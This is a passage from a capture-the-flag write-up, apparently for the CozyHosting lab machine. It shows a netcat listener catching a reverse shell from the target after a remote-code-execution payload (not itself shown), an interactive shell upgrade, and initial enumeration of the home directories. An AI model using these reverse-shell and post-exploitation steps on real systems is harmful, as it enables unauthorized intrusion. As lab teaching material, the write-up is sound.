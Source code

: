 - Once you have everything above done go ahead and start a netcat listener and send the payload to the target. It should hang and return a 504 error if the RCE attempt is successful.

![img_8.png](img/img_8.png)

```
(kali㉿kali)-[~]
└─$ nc -lvnp 9999    
listening on [any] 9999 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.230] 43648
bash: cannot set terminal process group (1064): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

- Just an option, I'm gonna upgrade it to get a better interactive shell:

```
script /dev/null -c bash

# ^Z (CTRL Z) to background the shell

stty raw -echo;fg

reset #type 'screen' when asked for terminal type

export TERM=xterm # allows you to clear STDOUT
```

- Now that we have our shell setup, let’s see what we need to do to be able to read the user flag.

- Looks like the user flag is in the user josh’s home directory and we need to find a way to elevate our privilege to that user:

```
app@cozyhosting:/app$ pwd
/app
app@cozyhosting:/app$ ls -alh /home
total 12K
drwxr-xr-x  3 root root 4.0K May 18 15:03 .
drwxr-xr-x 19 root root 4.0K Aug 14 14:11 ..
drwxr-x---  4 josh josh 4.0K Oct  6 00:46 josh
app@cozyhosting:/app$ cd /home/josh
bash: cd: /home/josh: Permission denied
app@cozyhosting:/app$
```
